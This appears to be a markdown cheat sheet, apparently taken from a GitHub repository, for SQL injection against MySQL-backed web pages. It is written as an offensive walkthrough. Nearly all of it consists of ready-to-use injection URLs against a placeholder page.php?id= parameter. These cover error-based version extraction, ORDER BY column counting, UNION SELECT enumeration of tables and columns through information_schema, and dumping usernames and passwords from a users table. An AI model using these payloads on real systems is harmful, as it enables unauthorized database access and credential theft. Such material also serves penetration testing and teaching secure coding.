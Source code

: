 # For MYSQL DATABASE

## Extracting Database Version:
http://example.com/page.php?id=1' AND 1=CONCAT(0x3a, DATABASE(), 0x3a)--
http://example.com/page.php?id=1' AND 1=CONCAT(0x3a, @@version, 0x3a)--

## Union-Based SQL Injection (Extract Data):

#### Find the Number of Columns:
http://example.com/page.php?id=1 ORDER BY 1--
http://example.com/page.php?id=1 ORDER BY 2--
http://example.com/page.php?id=1 ORDER BY 3--

If the query returns an error like:

Unknown column '3' in 'order clause'
Then you know that the maximum number of columns is 2.

#### Extracting Data Using UNION:
Once you know the number of columns, you can union your query with the SELECT statement to retrieve data. For example:

http://example.com/page.php?id=1 UNION SELECT null, username, password FROM users--

Such as I have 5 columns so:
http://example.com/page.php?id=1 UNION SELECT NULL, username, password, NULL, NULL FROM users--

#### Retrieving Table Names:
Once you have access to the database, you can list the tables in the current database:

http://example.com/page.php?id=1 UNION SELECT null, table_name, null FROM information_schema.tables WHERE table_schema=DATABASE()--


#### Retrieving Column Names:
To identify which columns to target, you can enumerate the column names for a specific table:

http://example.com/page.php?id=1 UNION SELECT null, column_name, null FROM information_schema.columns WHERE table_name='users'--
This will return all column names in the user's table.

#### Dumping Data:
Now that you know the column names, you can dump the data. For example:

http://example.com/page.php?id=1 UNION SELECT null, username, password FROM users--
This will dump usernames and passwords from the user's table.


#### Additional Techniques
Extracting current user:

http://example.com/page.php?id=1' UNION SELECT null, user(), null--
This will give you the current MySQL user.

#### Extracting database name:

http://example.com/page.php?id=1' UNION SELECT null, database(), null--

